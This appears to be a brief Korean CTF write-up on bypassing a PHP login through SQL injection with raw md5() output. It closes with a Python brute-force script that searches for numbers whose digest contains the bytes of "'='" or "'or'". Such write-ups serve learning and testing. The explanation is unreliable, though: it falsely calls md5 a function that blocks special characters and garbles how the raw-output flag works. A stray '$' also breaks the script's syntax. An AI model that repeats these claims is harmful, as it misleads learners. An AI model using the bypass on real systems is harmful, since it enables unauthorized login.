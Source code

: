 ## 해설
### md5
---
md5는 php에서 특수문자들을 모두 막는 함수이다. 그래서 md5안에서는 특수문자들을 사용할 수 없다. 또한 뒤에 True 혹은 False를 줘서 True면 32Byte의 Hex값을 16Byte의 바이너리 값으로 반환해준다. False면 바이너리로 변환하지 않고 반환한다. 기본값은 False로 설정되어있다. 그래서 우리는 쿼리 사이에 `'or'`을 넣어서 무조건 True가 나오게 바꾸어야 한다. 혹은 `'='`이 들어가서 false injection을 해야 한다.
### 익스플로잇
```py
import hashlib
for password in range(1, 10000000):
  md5_hash = hashlib.md5(str(password).encode()).hexdigest()
  if '273d27' in md5_hash: # '='을 ascii code로 바꾸었을때
    print(password)
  if '276f72' in md5_hash: $ # 'or'을 ascii code로 바꾸었을때
    print(password)